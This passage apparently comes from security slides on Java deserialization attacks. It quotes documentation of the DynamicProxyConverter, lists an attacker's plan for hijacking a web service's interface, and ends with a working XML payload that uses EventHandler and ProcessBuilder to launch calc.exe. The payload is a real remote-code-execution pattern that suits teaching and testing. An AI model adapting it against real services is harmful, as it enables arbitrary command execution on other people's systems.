

DynamicProxyConverter
Any dynamic proxy generated by java.lang.reflect.Proxy. The dynamic proxy itself is not serialized; however, the interfaces it implements and the actual InvocatinoHandler instance are serialized. This allows the proxy to be reconstructed after deserialization.

Attacker’s plan:- •Find out what Class the XML will be deserialized to
- •Create a proxy for that Class the WebService is waiting for
- •Intercept/hook any call to any method in the interface
- •Replace the original call with the malicious payload
- •Send the serialized version of the proxy
- •Cross-fingers
- •Profit
<dynamic-proxy>
<interface>org.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
<target class="java.lang.ProcessBuilder">
<command><string>calc.exe</string></command>
</target>
<action>start</action>
</handler>
</dynamic-proxy>